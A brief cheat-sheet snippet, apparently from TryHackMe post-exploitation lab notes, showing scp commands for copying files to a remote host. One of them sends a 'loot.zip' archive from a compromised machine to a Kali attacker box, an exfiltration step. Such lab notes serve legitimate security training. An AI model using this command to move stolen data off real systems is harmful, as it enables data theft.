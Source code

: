 ## Copy file from Local to Remote
```
scp file.txt remote_username@10.10.0.2:/remote/directory
scp .\20200614085021_loot.zip kali@10.11.10.57:/home/kali/tryhackme/post_exploitation_basics/loot.zip
```